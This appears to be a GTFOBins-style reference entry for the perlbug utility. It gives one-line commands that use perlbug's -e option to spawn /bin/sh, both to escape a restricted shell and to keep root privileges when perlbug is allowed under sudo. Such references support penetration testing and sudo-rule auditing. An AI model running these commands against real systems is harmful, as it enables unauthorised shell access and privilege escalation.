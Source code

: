 # GTFOBin: perlbug

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
perlbug -s 'x x x' -r x -c x -e 'exec /bin/sh;'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo perlbug -s 'x x x' -r x -c x -e 'exec /bin/sh;'
```
